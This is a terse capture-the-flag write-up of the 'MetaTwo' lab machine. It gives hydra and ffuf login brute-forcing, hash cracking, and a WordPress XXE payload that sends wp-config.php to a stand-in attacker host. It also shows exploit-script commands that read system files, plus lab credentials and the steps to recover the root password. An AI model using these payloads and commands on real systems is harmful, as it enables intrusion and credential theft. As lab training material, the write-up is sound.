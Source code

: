 # MetaTwo  


## Nmap  

All ports.  

```
21/tcp open  ftp?    syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
```  

## HTTP 80  

Username bruteforcing, finding 'admin' and 'manager'.  

```
hydra -L /usr/share/commix/src/txt/usernames.txt -p "password" metapress.htb http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmetapress.htb%2Fwp-admin%2F&testcookie=1:Unknown username. Check again or try your email address."
```


Password brute forcing.  

```
ffuf -u http://metapress.htb/wp-login.php -w /usr/share/SecLists/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt -X POST -H "Cookie: PHPSESSID=8g1l8hvk4u30j9ikbb0oa3512n; wordpress_test_cookie=WP%20Cookie%20check" -H "Content-Type: application/x-www-form-urlencoded" -d "log=manager&pwd=FUZZ&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmetapress.htb%2Fwp-admin%2F&testcookie=1" -fw 364
```

### Users  

Found the 'admin' and 'manager' passwords with a booking press CVE-2022-0739 plugin sql injection vuln.  

```
{
  "admin": {
    "email": "admin@metapress.htb",
    "password": "$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV."
  },
  "manager": {
    "email": "manager@metapress.htb",
    "password": "$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70"
  }
}
```  

### Password Cracking  

Cracking manager password with HashCat, hash format is phpass.  

`hashcat -m 400 -a 0 -o cracked.txt target_hashes.txt /usr/share/wordlists/rockyou.txt`  

Password.  

`$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar`

Rough notes, need to be properly typed when I have more time.  

## Wordpress exploit XXE  

The following blog has a great write up of this vuln.  

`https://www.sonarsource.com/blog/wordpress-xxe-security-vulnerability/`  

This is an authenticated blind XXE vuln which we would see in our attacking web logs url. This is the wave file.  

`payload.wav`

```
RIFFXXXXWAVEBBBBiXML<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://attacker-url.domain/xxe.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>>
```  

This file will be retrieved from ourselves, then the file contents will be attempted to be retrieved from my machine,which can be seen in my access logs.  

`xxe.dtd`  

```
<!ENTITY % data SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attacker-url.domain/?%data;'>">
```  

This can be used to read wp-config.php or the ftp server config file and ssh keys which are running on the system.  

An exploit script can be found.  

`https://www.exploit-db.com/exploits/50304`  

The following command retrieves the /etc/passwd file.  

`./exploit.sh metapress.htb manager partylikearockstar /etc/passwd 10.10.14.140`  

This finds user.  

`jnelson`  

Using this command to find app webroot nginx.  

`./exploit.sh metapress.htb manager partylikearockstar /etc/nginx/sites-enabled/default 10.10.14.140`  

`/var/www/metapress.htb/blog`  

Find the following information with wp-config.php file.  

`./exploit.sh metapress.htb manager partylikearockstar /var/www/metapress.htb/blog/wp-config.php 10.10.14.140`  


```
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```  

```
define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );
```

## User credentials  

The following was found when enumerating ftp. The file 'send_email.php' contained.  

```
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys"; 
```  

## Priv Esc  

Finding the following in /home/jnelson/.passpie/ssh/root.pass  

```
comment: ''
fullname: root@ssh
login: root
modified: 2022-06-26 08:58:15.621572
name: ssh
password: '-----BEGIN PGP MESSAGE-----


  hQEOA6I+wl+LXYMaEAP/T8AlYP9z05SEST+Wjz7+IB92uDPM1RktAsVoBtd3jhr2

  nAfK00HJ/hMzSrm4hDd8JyoLZsEGYphvuKBfLUFSxFY2rjW0R3ggZoaI1lwiy/Km

  yG2DF3W+jy8qdzqhIK/15zX5RUOA5MGmRjuxdco/0xWvmfzwRq9HgDxOJ7q1J2ED

  /2GI+i+Gl+Hp4LKHLv5mMmH5TZyKbgbOL6TtKfwyxRcZk8K2xl96c3ZGknZ4a0Gf

  iMuXooTuFeyHd9aRnNHRV9AQB2Vlg8agp3tbUV+8y7szGHkEqFghOU18TeEDfdRg

  krndoGVhaMNm1OFek5i1bSsET/L4p4yqIwNODldTh7iB0ksB/8PHPURMNuGqmeKw

  mboS7xLImNIVyRLwV80T0HQ+LegRXn1jNnx6XIjOZRo08kiqzV2NaGGlpOlNr3Sr

  lpF0RatbxQGWBks5F3o=

  =uh1B

  -----END PGP MESSAGE-----

  '
```  

Find the passphrase.  

`gpg2john key > key.john`  

`john -w=/usr/share/wordlists/rockyou.txt key.john`  

Using phrase to get passpie file.  

```
touch pass
passpie export pass
cat pass
```  

To get root password.
